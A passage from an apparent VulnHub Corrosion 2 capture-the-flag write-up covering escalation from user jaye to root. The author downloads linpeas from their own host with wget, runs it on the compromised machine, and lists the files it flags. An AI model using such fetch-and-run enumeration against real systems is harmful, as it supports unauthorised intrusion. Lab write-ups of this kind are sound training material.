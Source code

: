 ## Elevation of Privilege : jaye to Root

we can run again linpeas at this user. let's see what we will get.
```
wget http://192.168.238.6:8081/linpeas_base.sh
chmod +x linpeas_base.sh
./linpeas_base.sh
```

![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_9.png)

```
/home/                                                                                                                                                                                                             
/home/randy/note.txt                                                                                                                                                                                               
/home/randy/.bash_history                                                                                                                                                                                          
/home/randy/randombase64.py                                                                                                                                                                                        
/home/jaye/.bash_history                                                                                                                                                                                           
/home/jaye/Files                                                                                                                                                                                                   
/home/jaye/Files/look                                                                                                                                                                                              
/root/                                                                                                                                                                                                             
/var/www                                                                                                                                                                                                           
/var/www/html                                                                                                                                                                                                      
/var/www/html/index.html       
```

